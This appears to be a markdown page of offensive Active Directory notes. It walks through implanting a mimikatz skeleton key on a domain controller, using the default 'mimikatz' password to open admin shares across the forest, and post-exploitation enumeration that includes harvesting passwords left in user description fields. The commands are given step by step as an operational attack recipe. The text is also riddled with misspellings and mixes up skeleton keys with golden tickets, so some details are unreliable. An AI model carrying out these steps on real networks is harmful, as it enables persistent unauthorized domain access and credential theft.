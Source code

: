 
This attack requires atleast loacal administrator priveleges 

1. Run mimikatz to get in its shell

> mimikatz.exe

2. check our priveleges that if we can perfrom this attack or not

> privilege::debug

3. Now  we implant the skeleton key in the AD Forest

> misc::skeleton
This allows us to access any share of any machine on any  domain in the forest without ever enumurating it from the start beccause we already have a golden ticket and we make our access more easy



### Accessing the Forest

The default credentials will be: "mimikatz"

We can now make admin shares for our current user with elevated privileges persistent.we can configure any shares to accept us without authentication by follwoing command example

example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password

example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1


# Active Directory Post Exploitation

After we are a domain admin, now our goal is to gather as much information as possible

1. One way we can do is by rdp into the machine and then using windows server manager as it allows the management of whole domain in a AD environment

2. The most useful feature of windows server in post exploitation is going in tools tab and then enumerating different things going around on network

3. One important is the users and computers information tool whihc shows active users and sometimes people leave their passswords in the description so they dont forget
